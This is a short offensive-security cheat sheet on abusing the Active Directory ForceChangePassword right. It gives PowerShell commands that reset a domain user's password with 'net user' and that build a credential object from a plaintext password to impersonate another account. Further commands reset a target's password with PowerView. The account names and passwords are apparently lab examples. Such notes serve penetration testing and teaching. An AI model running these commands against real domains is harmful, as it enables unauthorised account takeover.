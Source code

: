 # ForceChangePassword

## <mark style="color:yellow;">Change the user's password with net</mark>

<mark style="color:orange;">**Full Privileges Required!**</mark>

```powershell
net user songbird S4MUR41 /domain
```

## <mark style="color:yellow;">Creating PSCredentials object</mark>

If we do not run PowerShell as other user, we may put their creds to secure PS object so we can impersonate him.&#x20;

1. With first command we are converting a plaintext password to SecureString (which protecting creds from memory reading).
2. With second command we are putting that SecureString into PSCredentials object for further use.

```powershell
PS C:\> $SecPassword = ConvertTo-SecureString 'h4ck4allth3th1ngs' -AsPlainText -Force
PS C:\> $Cred = New-Object System.Management.Automation.PSCredential('MILITECH\sreed', $SecPassword)
```

## <mark style="color:yellow;">Changing the user's password with PowerView</mark>

Here are are making a SecureString for new **songbird's** password and changing it using **sreed's** credentials in <mark style="color:green;">`-Credential $Cred`</mark>. <mark style="color:orange;">**PowerView Required!**</mark>

```powershell
PS C:\> $songbirdPassword = ConvertTo-SecureString 'S4MUR41' -AsPlainText -Force
PS C:> Set-DomainUserPassword -Identity songbird -AccountPassword $songbirdPassword -Credential $Cred -Verbose
```
